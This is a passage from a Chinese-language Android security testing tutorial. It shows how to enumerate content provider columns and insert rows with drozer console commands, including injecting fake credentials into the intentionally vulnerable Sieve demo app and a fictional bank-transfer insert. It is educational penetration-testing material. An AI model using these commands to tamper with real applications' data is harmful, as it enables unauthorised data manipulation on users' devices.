 在我们向内容提供者中插入数据之前，我们需要知道为数据库设置的模式或列是什么样子的；您可以使用 drozer 控制台中的以下命令来枚举这些信息:

```java
dz> run app.provider.columns [URI]

```

在前面的命令中`[URI]`是你想要找到的 URI。例如，如果您想对 screen 运行它，您可以执行以下命令:

```java
dz> run app.provider.columns content://com.mwr.example.seive.DBContentProvider/Passwords

```

前面的命令将产生如下截图所示的输出:

![How to do it...](img/00098.jpeg)

枚举数据库的列之所以有用，是因为它可以帮助您构建未来对内容提供商的攻击；您可能需要稍微了解一下模式，以便能够知道您可能对从中提取和插入哪些列和行感兴趣。

一旦您稍微了解了数据库的结构以及正确构建查询所需的列名，就可以使用以下命令将数据插入到内容提供程序中:

```java
dz> run app.provider.insert [URI] [--boolean [name] [value]] [--integer [name] [value]] [--string [name] [value]]...

```

在前面的命令中，`[URI]`是指向相关数据库的 URI，`--boolean`、`--integer`、`--string`是您应该提供的标志，用于将给定的数据标记为给定的数据类型。该模块支持以下数据类型:

```java
--boolean –-double –-float –-integer –-long –-string –short
```

它们都需要表示列名的`[name]`值和表示要插入的实际值的`[value]`。

以下代码是一个示例:

```java
dz> run app.provider.insert –-int _id 12 –-int from_account 31337 –-int to_account –-int amount 31337    content://com.example.vulnerabledatabase.contentprovider/statements 

```

下面是一个虚构的例子。你的设备上可能不存在 URI，除非你已经明确开发了一些处理它的应用程序。

下面是一个针对 Sieve 的工作示例:

```java
dz>  run app.provider.insert content://com.mwr.example.sieve.DBContentProvider/Passwords –-int _id 3 –-string username injected –-string service injected –-string password woopwoop –-string email myspam@gmail.com 

```

一旦您查询了 Sieve 的密码 URI 并执行了前面的命令，将返回以下数据:

![How to do it...](img/00099.jpeg)

